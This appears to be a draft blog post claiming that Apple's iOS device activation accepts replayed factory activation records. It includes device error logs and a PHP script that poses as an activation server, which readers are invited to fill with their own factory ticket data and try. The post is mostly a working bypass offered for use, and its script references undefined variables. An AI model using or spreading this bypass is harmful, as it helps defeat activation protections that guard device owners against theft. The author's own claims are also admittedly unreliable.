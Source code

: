 ```yaml
---
title: The activation paradoxon
published: 2025-06-18
description: Apple's activation mechanism is vulnerable to replay attacks, affected iPhones, iPads, iPods, iWatches
tags: [RE, Hax, Apple, iCloud]
category: Hacking
draft: true
---
```


Read this post on your own risk! The information is based on my own research and my (not-so-good-yet) reverse engineering skills. Thus, this write-up might be incorrect, contains mistakes and turn out partially or completely wrong! Do not trust it blindly and DYOR :\)

---

When it comes to iOS device activation, not all methods are created equal. There are the so called Factory Activation and Albert Activation - both play roles in activating an iPhone e.g. officially or via bypass. While both serve the same fundamental purpose, their security implications vary significantly, particularly when it comes to replay attacks.

In this post, we’ll break down how these activation methods work, why replay attacks are a concern for factory records (but not Albert activations), and what this means for device security. Whether you're a developer, security researcher, or just curious about iOS internals, understanding this "activation paradox" sheds light on Apple's evolving approach to keeping devices secure.

## **Replay attack on albert activation**

When proceeding the normal activation using the default server `https://albert.apple.com/deviceservices/deviceActivation`, we receive an activation record with production signature.

This we can check pretty easy by validating against the known iPhone Activation Certificates which you can find on iOS. These are the typical assigned certificates for the signed components of the record.

- `AccountTokenCertification` -> `iPhoneActivation.pem` (default)
- `AccountTokenSignature` -> `iPhoneActivation.pem` (default)

During the activation, there are performed several checks on several components. For the normal activation, iOS seems to perform more checks than for factory, at least we get the following errors when trying a replay attack:

```
<key>Error</key>
	<string>Failed to activate device. ({
    NSLocalizedDescription = "Failed to activate device.";
    NSUnderlyingError = "Error Domain=com.apple.MobileActivation.ErrorDomain Code=-2 \"Failed to activate device.\" UserInfo={NSLocalizedDescription=Failed to activate device., NSUnderlyingError=0x4ae2e15c0 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"Failed to validate activation record with factory certificates.\" UserInfo={NSLocalizedDescription=Failed to validate activation record with factory certificates., NSUnderlyingError=0x4ae2e2790 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"Failed to verify activation record certificate.\" UserInfo={NSLocalizedDescription=Failed to verify activation record certificate., NSUnderlyingError=0x4ae2e29a0 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"Failed to verify account token signature.\" UserInfo=0x4ae12cac0 (not displayed)}}}}}}";})
    </string>
```

~> `"Failed to verify account token signature."`

or

```
<key>Error</key>
	<string>Failed to activate device. ({
    NSLocalizedDescription = "Failed to activate device.";
    NSUnderlyingError = "Error Domain=com.apple.MobileActivation.ErrorDomain Code=-2 \"Failed to activate device.\" UserInfo={NSLocalizedDescription=Failed to activate device., NSUnderlyingError=0x4ae2e03f0 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"Failed to validate activation record with factory certificates.\" UserInfo={NSLocalizedDescription=Failed to validate activation record with factory certificates., NSUnderlyingError=0x4ae2e00f0 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"Failed to verify activation record certificate.\" UserInfo={NSLocalizedDescription=Failed to verify activation record certificate., NSUnderlyingError=0x4ae2e15c0 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"UCRT public key does not match UIK public key.\" UserInfo=0x4ae12d800 (not displayed)}}}}}}";})
    </string>
```

~> `"UCRT public key does not match UIK public key."`

## **Replay attack on factory activation**

When proceeding the factory activation using a presaved factory record, we get a different result of activation :) The device successfully activates.

Other than the albert activation, the signature of the AccountToken is made via RaptorActivation certificate. When the first activation try fails to validate internally against the iPhoneActivation certificates, it switches to FactoryActivation certificates for validation - and succeeds as the checks performed here are much less than albert.

- `AccountTokenCertification` -> `iPhoneActivation.pem` (default)
- `AccountTokenSignature` -> `RaptorActivation.pem` (*factory*)

If you are wanna try this yourself, just use this basic php script to do so, just paste the components of your factory ticket into the script

```php
<?php

require('CFPropertyList/CFPropertyList.php'); 
require_once('vendor/autoload.php');

$debug=false;
if($debug==true)
{ 
	ini_set('display_errors', 1);
	ini_set('display_startup_errors', 1);
	error_reporting(E_ALL);
}

error_reporting(0);
set_time_limit(0);

if(!isset($_POST['activation-info']) || empty($_POST['activation-info'])) { exit('Method not implemented'); }
if(isset($_POST['activation-info'])) {

    $response =
    '<plist version="1.0">
      <dict>
        <key>'.($deviceClass == "iPhone" ? 'iphone' : 'device').'-activation</key>
        <dict>
          <key>activation-record</key>
          <dict>
            <key>unbrick</key>
            <true/>
            <key>AccountToken</key>
            <data>
            ---AccountToken of your factory ticket---
            </data>
            <key>AccountTokenCertificate</key>
            <data>
            ---AccountTokenCertificate of your factory ticket---
            </data>
            <key>AccountTokenSignature</key>
            <data>
            ---AccountTokenSignature of your factory ticket---
            </data>
            <key>DeviceCertificate</key>
            <data>
            ---DeviceCertificate of your factory ticket---
            </data>
            <key>FairPlayKeyData</key>
            <data>
            ---FairPlayKeyData of your factory ticket---
            </data>
            <key>LDActivationVersion</key>
            <integer>2</integer>
            <key>RegulatoryInfo</key>
            <data>eyJtYW51ZmFjdHVyaW5nRGF0ZSI6bnVsbCwiZWxhYmVsIjp7ImJpcyI6bnVsbCwibWlpdCI6eyJuYWwiOm51bGwsImxhYmVsSWQiOm51bGx9fSwiY291bnRyeU9mT3JpZ2luIjpudWxsfQ==</data>
          </dict>
          <key>show-settings</key>
          <true/>
        </dict>
      </dict>
    </plist>';

    header("ARS: ".base64_encode(hex2bin(hash("sha1", $activation))));
    header('Content-type: application/xml');
    header('Content-Length: '.strlen($response));
    echo $response;

}
```

---

## Disclaimer

This writeup is for **educational purposes only**.

- Do **not** use this for illegal activities.
- Apple may patch this behavior at any time.


© 2025  ~ Hana Kim